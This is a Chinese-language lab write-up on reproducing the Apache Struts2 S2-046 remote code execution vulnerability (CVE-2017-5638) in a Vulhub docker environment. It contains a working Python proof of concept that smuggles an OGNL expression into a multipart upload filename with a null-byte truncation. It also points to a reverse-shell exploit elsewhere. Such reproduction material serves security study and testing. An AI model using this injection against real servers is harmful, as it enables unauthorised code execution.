 # Struts2 S2-046 远程代码执行漏洞 CVE-2017-5638

## 漏洞描述

漏洞详情:

- https://cwiki.apache.org/confluence/display/WW/S2-046
- https://xz.aliyun.com/t/221

## 漏洞影响

影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

## 环境搭建

Vulhub执行以下命令启动s2-046测试环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到上传页面。

## 漏洞复现

与s2-045类似，但是输入点在文件上传的filename值位置，并需要使用`\x00`截断。

由于需要发送畸形数据包，我们简单使用原生socket编写payload：

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('your-ip', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())
```

`233*233`已成功执行：

![image-20220302112052286](images/202203021120362.png)

### 反弹shell

详情参考《Struts2 S2-045 远程代码执行漏洞 CVE-2017-5638》中的漏洞EXP。

